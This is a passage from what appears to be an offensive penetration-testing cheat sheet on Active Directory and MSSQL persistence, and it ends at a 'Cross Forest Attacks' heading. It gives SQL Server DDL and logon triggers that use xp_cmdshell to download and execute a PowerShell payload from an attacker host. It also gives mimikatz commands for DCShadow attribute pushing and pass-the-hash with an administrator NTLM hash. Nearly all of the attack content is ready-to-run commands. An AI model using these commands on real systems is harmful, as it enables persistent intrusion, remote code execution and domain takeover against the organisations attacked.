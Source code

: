 _use DDL triggers for persistence_

```
CREATE Trigger [persistence_ddl_1]
ON ALL Server
FOR DDL_LOGIN_EVENTS
AS
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString('http://$ip_attacker/payload.ps1')"
GO
```

_use Logon triggers for persistence_

```
CREATE Trigger [persistence_logon_1]
ON ALL SERVER WITH EXECUTE AS 'sa'
FOR LOGON
AS
BEGIN
IF ORIGINAL_LOGIN() = 'testuser'
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString('http://$ip_attacker/payload.ps1')"
END;
```

### Forest Persistence

#### DCShadow

**DCShadow temporarily registers a new domain controller in the target domain** and uses it to "push" attributes like SIDHistory, SPNs... on specified objects without leaving the change logs for modified object!

_⚠️ Requirements :_

* DA privileges are required to use DCShadow.
* The attacker's machine must be part of the root domain.

The attack needs 2 instances on a compromised machine :

**1 instance :** _start RPC servers with SYSTEM privileges and specify attributes to be modified_

```
mimikatz # !+
mimikatz # !processtoken
mimikatz # lsadump::dcshadow /object:root1user /attribute:Description /value="Hello from DCShadow"
```

**2 instance :** _with enough privileges of DA to push the values :_

```
mimikatz # sekurlsa::pth /user:Administrator /domain:$domain /ntlm:$admin_hash /impersonate
mimikatz # lsadump::dcshadow /push
```

### Cross Forest Attacks
